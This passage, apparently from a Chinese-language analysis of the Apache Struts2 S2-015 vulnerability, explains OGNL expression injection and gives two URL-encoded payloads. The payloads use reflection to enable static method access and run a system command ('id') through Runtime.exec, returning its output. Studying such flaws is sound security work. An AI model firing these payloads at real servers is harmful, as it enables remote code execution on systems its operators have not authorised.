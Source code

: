 这里使用反射修改`allowStaticMethodAccess`属性的方式，如下：
```
/S2-015/%25%7b%23m=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23m.setAccessible(true),%23m.set(%23_memberAccess,true),%23a=@java.lang.Runtime@getRuntime().exec('id'),%23b=%23a.getInputStream(),%23c=new%20java.io.InputStreamReader(%23b),%23d=new%20java.io.BufferedReader(%23c),%23e=new%20char[50000],%23d.read(%23e),new%20java.lang.String(%23e)%7d.action
```
<img src="pic/struts2_s2-015_5.png">

这里换一种方式来处理命令执行的结果：使用项目依赖包`commons-io`里的`IOUtils#toString()`方法。
使用这个方法的好处是，它会根据命令执行结果而返回相应长度的字符串。而不是像上面的方式那样固定的缓冲区。
```
%25%7B%23context['xwork.MethodAccessor.denyMethodExecution']=false,%23m=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23m.setAccessible(true),%23m.set(%23_memberAccess,true),%23q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())%7D.action
```

<img src="pic/struts2_s2-015_6.png">

### vuln-2：Double evaluation of an expression

有`ParamAction`定义如下图，在该`action`中定义了`message`属性以及`set`/`get`方法。在`struts.xml`中还定义了`success`返回时的方式，使用了`${message}`去引用`message`属性的值。
